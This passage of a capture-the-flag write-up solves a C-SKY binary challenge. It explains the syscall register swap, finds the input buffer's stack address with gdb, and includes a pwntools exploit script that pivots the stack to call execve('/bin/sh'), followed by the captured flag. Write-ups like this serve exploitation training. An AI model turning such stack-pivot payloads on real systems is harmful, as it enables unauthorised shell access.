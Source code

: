 To swap the registers appropriately for the syscall calling convention, they are stored and loaded from the stack.\
Thus, we can store the register values that we want in the stack and jump in the middle of the function.

Also, note how `21` is subtracted from the syscall number (`r7`) after it was masked by `255`.

### The exploit

With gdb we can figure out the fixed stack position of the input buffer.
The simplest way is adding a breakpoint to the `read` call and printing the registers:

![gdb1](/tfcctf25/cromo/gdb1.png)

I found [here](https://gpages.juszkiewicz.com.pl/syscalls-table/syscalls.html)
that the syscall number for `execve` is `221` on C-SKY.

Since we can overwrite the stack base pointer, we can pivot the stack to an offset within our injected data.\
The following payload calls `syscall(221+21, "/bin/sh", 0, 0)`:

```py
def main():
    r = conn()

    # r8-16 : r2  -> arg2
    # r8-12 : r1  -> arg1
    # r8-8  : r0  -> arg0
    # r8-4  : r12 -> syscall_no+21
    stack = 0x3ffffecc

    payload = fit({
        0: p32(0),
        4: p32(0),
        8: p32(stack+32),
        12: p32(221+21), #execve
        32: b"/bin/sh\0",
    })

    payload = payload.ljust(100, b'\0')
    payload += p32(stack+16)  # set stack
    payload += p32(0x822e)    # set retptr

    r.sendlineafter(b"read:", payload)
    r.interactive()
```

Finally we can get that flag:

```
TFCCTF{t0_beat_mcsky_y0u_had_to_csky_now_go_after_cromozominus}
```

Let's follow this advice and move on to cromozominus.

## Cromozominus Rex
